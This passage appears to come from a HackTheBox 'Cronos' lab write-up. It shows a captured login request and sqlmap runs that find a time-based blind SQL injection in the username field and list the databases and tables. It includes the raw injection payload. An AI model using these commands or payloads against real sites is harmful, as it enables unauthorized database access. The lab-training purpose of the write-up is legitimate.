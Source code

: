 ##### Alternative Method

Another way we could automate this process is to use `sqlmap`. To do so, we have to intercept the login request with Burp and save it to a file first, then run `sqlmap`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# cat login_request.txt
POST / HTTP/1.1
Host: admin.cronos.htb
...
Cookie: PHPSESSID=6e7ohtcagfddqgcaab5qor2ir5
Connection: close

username=admin&password=admin

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# sqlmap -r login_request.txt --dbs --batch                          
...
[14:39:34] [INFO] parsing HTTP request from 'login_request.txt'
[14:39:34] [INFO] resuming back-end DBMS 'mysql' 
[14:39:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 6061 FROM (SELECT(SLEEP(5)))JZOF) AND 'yAhh'='yAhh&password=admin
---
[14:39:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[14:39:34] [INFO] fetching database names
[14:39:34] [INFO] fetching number of databases
[14:39:34] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[14:39:34] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[14:39:44] [INFO] retrieved: 
[14:39:49] [INFO] adjusting time delay to 1 second due to good response times
information_schema
[14:40:46] [INFO] retrieved: admin
available databases [2]:
[*] admin
[*] information_schema
...

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# sqlmap -r login_request.txt -D admin --tables --batch
...
[14:43:43] [INFO] adjusting time delay to 1 second due to good response times
users
Database: admin
[1 table]
+-------+
| users |
+-------+
...

```